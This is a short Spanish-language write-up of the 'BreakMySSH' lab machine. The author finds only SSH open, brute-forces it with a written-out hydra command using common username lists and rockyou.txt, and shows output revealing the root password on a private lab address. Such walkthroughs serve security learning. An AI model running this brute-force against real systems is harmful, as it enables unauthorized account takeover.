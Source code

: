 # BreakMySSH

Con un `nmap` vemos que solo está abierto el puerto de SSH. Por el nombre de la máquina me puedo imaginar que hay que hacerle fuerza bruta.

```bash
hydra -L /usr/share/wordlists/SecLists-2025.2/Usernames/top-usernames-shortlist.txt -P /usr/share/wordlists/rockyou.txt ssh://$IPTARGET
```

```bash
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: root   password: estrella
```

![[/assets/Pasted image 20250724032351.png]]